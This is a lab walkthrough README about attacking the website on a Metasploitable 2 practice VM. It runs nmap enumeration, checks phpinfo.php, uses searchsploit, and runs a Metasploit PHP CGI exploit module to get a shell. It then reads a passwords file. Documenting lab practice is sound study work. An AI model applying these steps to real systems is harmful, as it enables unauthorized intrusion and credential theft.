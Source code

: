 <h1>Metasploitable 2 Website Hacking</h1>

<h2>Description</h2>

The project consists of using the information from the [enumeration project](https://github.com/ntieu4328/Metasploit-2-Enumeration) to start exploiting the Metasploitable 2 system. In this project, I will specifically exploit the website portion of the Metasploitable 2 system.

<h2>Walk-through:</h2>

From the enumeration that was done, I can see that port 80 is open:

![nmap_LI](https://github.com/ntieu4328/Metasploitable-2-Website-Hacking/assets/156137990/ea2efe3d-e993-4d0d-be56-c34ece7b27e4)

This port is the default port used for HTTP. HTTP is used for unencrypted web pages. HTTPS, which is run on port 443, is used for encrypted web pages.

We can look at the web page by inputting the IP into a web browser:

![metasploitable website](https://github.com/ntieu4328/Metasploitable-2-Website-Hacking/assets/156137990/837fb511-bb84-4078-b85b-da9d884f63a7)

<h3>Web developer tools</h3>

One way to gather more information would be to go into web developer tools:

![start web developer tools](https://github.com/ntieu4328/Metasploitable-2-Website-Hacking/assets/156137990/a668da39-43d8-42da-a798-7b402cce102f)

Look at the website header:

![headers show server and what's running](https://github.com/ntieu4328/Metasploitable-2-Website-Hacking/assets/156137990/de0db523-4e9e-453d-a083-767abfd396e0)

Server: Apache/2.2.8 (Ubuntu) DAV/2
Powered By: PHP/5.2.4-2ubuntu5.10
Both are out of date, so we can look up vulnerabilities to see if we can exploit them.

<h3>HTTP enum script</h3>

We can also run a script to see what directories are available on the website:

*This script will only work with http websites

```bash
nmap -sV -p 80 --script http-enum 10.0.2.4
```
![http enumeration metasploitable home page](https://github.com/ntieu4328/Metasploitable-2-Website-Hacking/assets/156137990/9f12ec06-19f4-4176-a652-110a9fa4e2d5)

After looking through the directories, one of the interesting directories I found was phpinfo.php. I accessed it by searching:

http://10.0.2.4/phpinfo.php/

![phpinfo php](https://github.com/ntieu4328/Metasploitable-2-Website-Hacking/assets/156137990/d7b82c30-b704-430b-9c10-7c8d39d60f88)

This page shows a lot of information about the system, which we can use to exploit the website.
</br>

<h3>Metasploit</h3>

Metasploit is a penetration testing framework. We are going to use Metasploit to find a vulnerability in the http version that Metasploitable 2 is running.

Start Metasploit:

```bash
msfconsole
```

![metasploit start](https://github.com/ntieu4328/Metasploitable-2-Website-Hacking/assets/156137990/18449075-6d98-4bbb-aa8e-f01265a629be)

Scan for the http version of Metasploitable 2:

  1. Choose the scanner that looks for the http version:
     
```bash
search http_version
```
    
  ![http version scan](https://github.com/ntieu4328/Metasploitable-2-Website-Hacking/assets/156137990/285b664e-bed6-4bf4-9130-240628b041c3)

  2. The module that we want to use is #0:
     
```bash
use 0
```

  3. The scan needs some configuration, so we have to see what we need to configure:

```bash
show options
```
    
  ![scan show options](https://github.com/ntieu4328/Metasploitable-2-Website-Hacking/assets/156137990/92808d81-f524-4d47-91d5-15652274991f)
  
    The RHOSTS option hasn't been configured.

  4. Configure RHOSTS with the target IP:
     
```bash
set rhosts 10.0.2.4
```

  5. Start the scan:
     
```bash
exploit
```

  ![scan results](https://github.com/ntieu4328/Metasploitable-2-Website-Hacking/assets/156137990/b573a877-81b7-433a-a5f5-079d080b0a58)

  6. Look for any vulnerabilities that can be done on the version of Apache using PHP using searchsploit:
     
```bash
searchsploit apache 2.2.8 | grep php
```

*Searchsploit looks for vulnerabilities with Apache 2.2.8. The results are piped to grep which looks for results specifically with php.

![scan results](https://github.com/ntieu4328/Metasploitable-2-Website-Hacking/assets/156137990/9a1eed70-db4d-4f78-9491-a10a431a73e2)

  7. Search for the first exploit shown:

```bash
grep cgi search php
```

![cgi exploit](https://github.com/ntieu4328/Metasploitable-2-Website-Hacking/assets/156137990/d5cab748-b4f8-4af9-8517-dc1d3a857134)

The exploit that we were looking for is #258.

  8. Select the exploit:

```bash
use 258
```

  9. The exploit needs to be configured:

```bash
show options
```

![exploit options](https://github.com/ntieu4328/Metasploitable-2-Website-Hacking/assets/156137990/b87b217c-cffd-4da8-968d-a830254f890a)

The RHOSTS option hasn't been configured.

  10. Configure RHOSTS with the target IP:
     
```bash
set rhosts 10.0.2.4
```

  11. Start the exploit:

```bash
run
```

![start exploitation](https://github.com/ntieu4328/Metasploitable-2-Website-Hacking/assets/156137990/82db04fd-b71b-4fb4-a2d4-77b6b3e96eeb)

<b>I now have full access to the system!!!</b>

Some interesting files that I found was in the Mutillidae directory. I went into the directory using:

```bash
cd mutillidae
```

![interesting files](https://github.com/ntieu4328/Metasploitable-2-Website-Hacking/assets/156137990/6e10436f-cf5a-422c-a53d-894bc9a336bc)

Read the robots.txt file:

The robots.txt file is used to specify files and directories that the web admin doesn't want you to be able to search in the web browser.

```bash
cat robots.txt
```

![robots](https://github.com/ntieu4328/Metasploitable-2-Website-Hacking/assets/156137990/adfeeb54-bece-4296-b04f-2fa59d8d7cea)

We can also go into the passwords directory and read the file that is on it:

```bash
cd passwords
ls
cat accounts.txt
```

![passwords](https://github.com/ntieu4328/Metasploitable-2-Website-Hacking/assets/156137990/5c3ec251-0e59-4c45-8b3f-26862e89b354)

<b>There are some passwords that are listed!!!</b>
